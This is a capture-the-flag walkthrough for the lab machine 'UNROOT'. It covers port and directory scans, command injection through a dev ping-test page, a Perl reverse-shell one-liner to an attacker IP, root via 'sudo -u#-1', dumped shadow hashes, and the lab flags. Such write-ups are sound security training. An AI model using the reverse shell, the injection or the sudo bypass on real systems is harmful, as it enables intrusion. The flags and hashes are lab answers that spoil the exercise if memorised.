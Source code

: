 # UNROOT

![](../.gitbook/assets/6f48f2627fbc472899036d5669337f51.png)

## NMAP SCAN

```text
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:3e:e1:4a:f7:43:35:f8:f3:87:f4:cf:9e:94:94:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDUF817FS5waGw93gPXGfef4lSpxXy+owMYj/vCHglELtfsn21v/PfDkj0j7j68SOm/n9FyOSiflOl8gdYS8Vz6olRznnQVLVyEEFZiKuJk9j3Gyqizwp+UhhPbnSAWOcm4ATpLM1lv6Zd63MvOspHBX6A+831bMN01yJd1odsMeP3ToerFKvAvFJEU8l+ZX7fLd65JY0t5s+kwT2occc/tNJIUYrak3Nvs/7Z3KSpscComafA+dFSvG8clm/Pc+XICYoHCxOc/PqZbqliLCZ6vPRwrTbI+CZHFeKRyvxH86CMRWwcJfFxEAazjzEFmaKdlWqDaLbRw13nUuURTsdUX
|   256 31:ae:2e:71:f6:45:da:8a:ce:03:ed:b6:29:8b:05:f7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGqfN+KWg/iZzC5UbRzKsGJv+yPd4aZqj9tql3uMS8TnCMiGFHlppMjBIs5KTa8ddnDFPdjcz/Z9yOJxXBHS3rc=
|   256 7a:8b:f4:80:d7:23:27:f0:9a:a0:4a:e6:df:d7:87:7c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAFATu2GzrE9Xxsj2u/3Bth8wzqzNTChL8ssEsepIflk
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 531B63A51234BB06C9D77F219EB25553
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: phpMyAdmin
```

## PORT 80 ENUMERATION

![](../.gitbook/assets/eafd858e2122428984d3f2e13ef680bf.png)

### GOBUSTER

```text
gobuster dir -u http://172.31.1.17 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt -t 20
```

```text
/index.php            (Status: 200) [Size: 10556]
/templates            (Status: 301) [Size: 314] [--> http://172.31.1.17/templates/]
/themes.php           (Status: 200) [Size: 10535]                                  
/themes               (Status: 301) [Size: 311] [--> http://172.31.1.17/themes/]   
/doc                  (Status: 301) [Size: 308] [--> http://172.31.1.17/doc/]      
/ajax.php             (Status: 200) [Size: 10547]                                  
/navigation.php       (Status: 200) [Size: 10560]                                  
/license.php          (Status: 200) [Size: 10549]                                  
/dev                  (Status: 301) [Size: 308] [--> http://172.31.1.17/dev/]      
/README               (Status: 200) [Size: 1520]                                   
/js                   (Status: 301) [Size: 307] [--> http://172.31.1.17/js/]       
/javascript           (Status: 301) [Size: 315] [--> http://172.31.1.17/javascript/]
/logout.php           (Status: 200) [Size: 10540]                                   
/libraries            (Status: 301) [Size: 314] [--> http://172.31.1.17/libraries/] 
/changelog.php        (Status: 200) [Size: 10541]                                   
/url.php              (Status: 302) [Size: 0] [--> /]                               
/export.php           (Status: 200) [Size: 10559]                                   
/ChangeLog            (Status: 200) [Size: 19186]                                   
/vendor               (Status: 301) [Size: 311] [--> http://172.31.1.17/vendor/]    
/robots.txt           (Status: 200) [Size: 26]                                      
/sql.php              (Status: 200) [Size: 10542]                                   
/import.php           (Status: 200) [Size: 10546]                                   
/lint.php             (Status: 200) [Size: 10537]                                   
/server_status.php    (Status: 200) [Size: 10560]                                   
/phpinfo.php          (Status: 200) [Size: 10561]                                   
/server-status        (Status: 403) [Size: 276]                                     
/db_search.php        (Status: 200) [Size: 10552]
```

### /DEV/INFO.PHP

![](../.gitbook/assets/3b4c6605b7d24ad89faa3a5a6af3ad12.png)

### /DEV/PING-TEST.PHP

![](../.gitbook/assets/ff6c3d6aa7bf47f0be12c724b6fe847c.png)

![](../.gitbook/assets/3dc06edc03b14ce48529f24446ed5c3e.png)

![](../.gitbook/assets/816b7749115a484897e69a24ed640bc3.png)

![](../.gitbook/assets/cf45fd20587a4dac97debddf765131c4.png)

```text
; command 
& command
| command
```

## EXPLOIT

* PERL never let us down

![](../.gitbook/assets/eb814461ea2d4b9fa54065ade42cf261%20%281%29.png)

```text
perl -e 'use Socket;$i="10.10.0.63";$p=6666;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

![](../.gitbook/assets/facec65023c749faa292a1c5de50899d.png)

## PRIVESC

![](../.gitbook/assets/c5951115883d4375be0a206e678198e3.png)

```text
sudo -u#-1 /bin/bash
```

![](../.gitbook/assets/8f04b181a20c4116997136e1c2dbd2f0.png)

## CREDS

```text
root:$6$BOmr7DO0$2970RAQsRRYX6e0qrd/reqZfxq0pJy5KN.iPoUvLQRfSTvJS.mCmFSr3cmno9dDiPhG7xUd7FscekmDtB5A3A/:18382:0:99999:7:::
joe:$6$bhRy5d6p$qsX7CxMpYmUVWKEUL2.U2982zYw/x6bbbsZdzNDobGYKPM76I21Eyi19/y0KuBRbrjlYWjmh0.MnFRTQthf.J0:18386:0:99999:7:::
```

## FLAGS

### USER

```text
7e42b3011f69f0e148b87ce2f55cf027
```

### ROOT

```text
4d4e7772570b00176a8db37508abcdb0
```

![](../.gitbook/assets/f32977a349284be88d518e76148423c6.png)

